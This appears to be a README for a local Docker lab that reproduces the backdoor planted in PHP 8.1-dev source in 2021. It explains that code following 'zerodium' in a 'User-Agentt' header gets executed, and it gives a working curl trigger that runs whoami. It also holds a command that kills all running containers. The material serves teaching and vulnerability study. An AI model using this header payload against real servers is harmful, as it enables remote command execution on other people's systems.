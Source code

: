 # 4. PHP 8.1-DEV BACKDOOR
## Subtitle / what it does
PHP 8.1-dev has been backdoored. A malicious "User-agentt" header can be sent along with the request. Read more: https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
docker-compose up -d
curl -H "User-Agentt: zerodiumsystem('whoami');" http://localhost:8080
```
![image](https://user-images.githubusercontent.com/31791455/140391265-d9cc3cc8-9c61-47e3-9a54-eece30c0b779.png)


### Explanation
The backdoor looks for existence of malformed user-agent header. If it contains string "zerodium", then anything that comes after it will be executed.

### References and recommended reading
https://www.exploit-db.com/exploits/49933
https://github.com/flast101/php-8.1.0-dev-backdoor-rce

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/php/8.1-backdoor
